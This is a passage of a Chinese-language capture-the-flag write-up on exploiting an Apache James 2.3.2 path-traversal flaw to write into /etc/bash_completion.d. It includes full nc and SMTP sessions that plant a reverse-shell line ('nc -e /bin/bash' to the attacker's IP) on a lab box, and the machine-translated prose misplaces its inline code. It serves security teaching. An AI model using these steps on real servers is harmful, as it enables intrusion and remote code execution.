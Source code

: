 
### 预期路径

#### 利用理论

我相信预期的路径是利用James 2.3.2漏洞，我现在将展示它。首先，我将从 中看一下漏洞利用。`searchsploit`

在 James 中创建用户时，将根据用户的用户名为该用户创建一个文件夹，当电子邮件传入时，该文件夹将存储在该文件夹中。问题是没有对该用户名进行边界检查，因此，如果用户名为 ，则它将在根级别创建该文件夹，并将文件与收到的电子邮件的内容一起放入其中。`../../../../../../../0xdf`

那么问题就变成了，我如何利用这种半任意的根写入访问权限来发挥我的优势？我可以控制写入的文件夹，但不能完全控制文件名。这消除了将公钥写入或更改或文件的想法。`/root/.ssh/authorized_keys``/etc/sudoers``/etc/passwd`

脚本作者提出的解决方案很好。Bash 完成脚本为各种命令提供自定义选项卡完成功能。例如，当我键入 时，它会根据 git bash 完成脚本自动完成，该脚本每次在我的主机上启动会话时运行。事实上，几周前我正在考虑编写自定义 bash 完成脚本，这并不难。我在推特上发了一个非常好的评论帖子：`git stat[tab]``git status`

无论如何，当任何用户登录时，通过写入 ，该用户将作为脚本运行其中的每个文件。`/etc/bash_completion.d``bash`

#### 脚本审查

打开脚本，我看到的过程正是如上所述：

[![詹姆斯·赫瓦德笔记](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fjames-exploit.png)_点击查看全尺寸图片_](https://0xdf.gitlab.io/img/james-exploit.png)

#### 手动利用

看看脚本的作用，我将手动尝试使用 和 。首先，创建一个用户：`nc``telnet`

    root@kali# nc 10.10.10.51 4555
    JAMES Remote Administration Tool 2.3.2
    Please enter your login and password
    Login id:
    root
    Password:
    root
    Welcome root. HELP for a list of commands
    adduser ../../../../../../../../etc/bash_completion.d 0xdf0xdf
    User ../../../../../../../../etc/bash_completion.d added
    quit
    Bye
    

现在，我将向该用户发送一封带有反向外壳的电子邮件，并在 25 日连接到 SMTP：

    root@kali# telnet 10.10.10.51 25
    Trying 10.10.10.51...  
    Connected to 10.10.10.51.     
    Escape character is '^]'.              
    220 solidstate SMTP Server (JAMES SMTP Server 2.3.2) ready Wed, 29 Apr 2020 22:28:40 -0400 (EDT)
    EHLO 0xdf
    250-solidstate Hello 0xdf (10.10.14.47 [10.10.14.47])
    250-PIPELINING                            
    250 ENHANCEDSTATUSCODES
    MAIL FROM: <'0xdf@10.10.14.47>
    250 2.1.0 Sender <'0xdf@10.10.14.47> OK 
    RCPT TO: <../../../../../../../../etc/bash_completion.d>
    250 2.1.5 Recipient <../../../../../../../../etc/bash_completion.d@localhost> OK
    DATA
    354 Ok Send data ending with <CRLF>.<CRLF>               
    FROM: 0xdf@10.10.14.47            
    '
    /bin/nc -e /bin/bash 10.10.14.47 443
    .
    250 2.6.0 Message received                          
    quit                                                      
    221 2.0.0 solidstate Service closing transmission channel
    Connection closed by foreign host.     
    